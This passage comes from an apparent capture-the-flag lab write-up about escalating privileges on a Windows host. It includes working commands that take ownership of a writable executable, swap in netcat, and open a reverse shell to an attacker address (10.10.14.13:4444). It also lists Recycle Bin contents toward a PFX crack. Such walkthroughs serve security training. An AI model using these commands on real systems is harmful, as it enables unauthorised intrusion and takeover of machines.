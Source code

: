 It appears that the user is `ginawild`, and is part of the ITDep group. Also, this user has Write Owner privileges over the `Bginfo64.exe` file. This means we can take over as the owner of the file, replace it with `nc.exe` , change the permissions to let everyone execute it, and then execute it to gain a reverse shell as `ginawild`.&#x20;

Before doing so, we need to get the file over. SMB wasn't going to work as something is closing our connection.  `powershell` itself runs with very little allowance. So, let's re-use the file upload vulnerability we found earlier, and upload our `nc64.exe` shell to the website.&#x20;

My final DLL looks something like this:

{% code overflow="wrap" %}
```cpp
system("cmd.exe /c takeown /F C:\\share\\Bginfo64.exe");
system("cmd.exe /c cacls C:\\share\\Bginfo64.exe /E /G ginawild:F");
system("cmd.exe /c copy C:\\inetpub\\wwwroot\\Data\\Sites\\1\\Media\\nc.exe C:\\share\\Bginfo64.exe");
system("cmd.exe /c C:\\share\\Bginfo64.exe -e cmd.exe 10.10.14.13 4444");
```
{% endcode %}

After waiting for a little bit, we will get a shell back!

<figure><img src="../../../.gitbook/assets/image (3183).png" alt=""><figcaption></figcaption></figure>

We can now grab the user flag.&#x20;

## Bpassrunner Shell

### Recycle Bin -> PFX Crack

Within the main `C:\` directory, there are some files within the Recycle Bin.&#x20;

```
c:\>dir /a 
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of c:\

02/14/2022  08:48 PM    <DIR>          $Recycle.Bin
04/19/2022  02:24 PM    <DIR>          $WinREAgent

c:\$Recycle.Bin>dir /a
dir /a
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of c:\$Recycle.Bin

02/14/2022  08:48 PM    <DIR>          .
04/19/2022  02:45 PM    <DIR>          ..
02/14/2022  08:48 PM    <DIR>          S-1-5-18
10/07/2021  12:51 AM    <DIR>          S-1-5-21-3783586571-2109290616-3725730865-2359
10/13/2022  09:11 PM    <DIR>          S-1-5-21-3783586571-2109290616-3725730865-2663
```